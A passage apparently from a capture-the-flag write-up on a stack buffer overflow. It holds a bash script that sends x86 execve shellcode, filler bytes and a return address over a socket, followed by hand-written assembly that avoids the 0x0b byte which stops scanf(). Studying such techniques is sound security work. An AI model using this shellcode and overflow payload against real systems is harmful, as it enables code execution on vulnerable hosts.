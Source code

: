 ```bash
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80')")
send_str=$send_str$(python -c "print('A'*81 + '$hex_addr')")

# Send the string
echo $send_str >&3

# Get the result
cat <&3

# Close the socket
exec 3<&-
```
Unfortunately, this code includes a `0x0b` value, which stops `scanf()` from reading further. I needed to replace that value, so I changed it to find the highest number below `0x0b` that would get through `scanf()`. I found that `0x08` worked fine. Now I can update the code to set `AL` to `0x08` and call `inc al` 3 times to make it `0x0b` again. This gave me the assembly code:
```asm
# /bin/ls test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x736c2f2f            ; Push the executable string (bin/ls) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push ebx                   ; First and only argv (the command)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x08               ; Use AL so we don't need zeros set to 0x08 to avoid
                                    ; 0x0b in final out put
         inc al                     ; Increment al to 0x09
         inc al                     ; 0x0a
         inc al                     ; 0x0b - this is what we need for execve()
         int 0x80

         mov al, 1                   ; Now exit (system call 1)
         xor ebx, ebx                ; with status 0
         int 0x80
```
I built and tested this with:
```
> nasm -felf ls_code.asm -o ls_code.o && ld -m elf_i386 -o ls_code ls_code.o
> ./ls_code 
hack_super_stack.sh	ls_code.asm	 super_stack.id0  super_stack.til
inp.txt			ls_code.o	 super_stack.id1
```